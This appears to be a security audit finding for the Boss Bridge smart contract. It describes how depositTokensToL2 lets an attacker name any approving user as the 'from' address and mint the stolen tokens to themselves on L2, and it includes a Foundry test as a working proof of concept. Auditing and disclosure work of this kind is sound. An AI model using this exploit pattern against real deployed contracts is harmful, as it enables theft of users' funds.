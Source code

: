 ### Relevant GitHub Links

https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/1b33f63aef5b6b06acd99d49da65e1c71b40a4f7/src/L1BossBridge.sol#L70-L77

## Summary
We can steal any token approved by any user to the `L1BossBridge` contract by transferring it to the bridge and minting it on the L2.

## Vulnerability Details
The `depositTokensToL2(...)` function takes in a `from`, `l2Recipient` and `amount` parameter. In the function body a `safeTransferFrom(...)` call is made to the token, where `amount` funds are transferred from the specified `from` address to the vault. An attacker is able to specify this `from` address as a function argument. A `Deposit` event is then emitted by the contract indicating a successful deposit, where the `l2Recipient` is then permitted to mint the token on the L2. As a result of this an attacker can specify any `from` address for a user that has previously approved `token` (and other tokens when they are added) to be spent by the `L1BossBridge` contract, and set him/herself as the `l2Recipient`. In doing so stealing funds of the user on the L1 side and minting it to the attacker on the L2 side.

## Impact
Loss of funds for any user approving the `L1BossBridge` to spend funds on the L1.

Test:
```
function test_TokenApprovalThief() public {
        // Create users
        address alice = vm.addr(1);
        vm.label(alice, "Alice");

        address bob = vm.addr(2);
        vm.label(bob, "Bob");

        // Distribute tokens
        deal(address(token), alice, 10e18);

        console2.log("Token balance alice (before):", token.balanceOf(alice));
        console2.log("Token balance bob (before):", token.balanceOf(bob));

        // Alice approves bridge
        vm.prank(alice);
        token.approve(address(tokenBridge), type(uint256).max);

        // Bob calls depositTokensToL2 with alice as from
        vm.prank(bob);
        tokenBridge.depositTokensToL2(alice, bob, 10e18);

        console2.log("Token balance alice (after):", token.balanceOf(alice));
    }
```
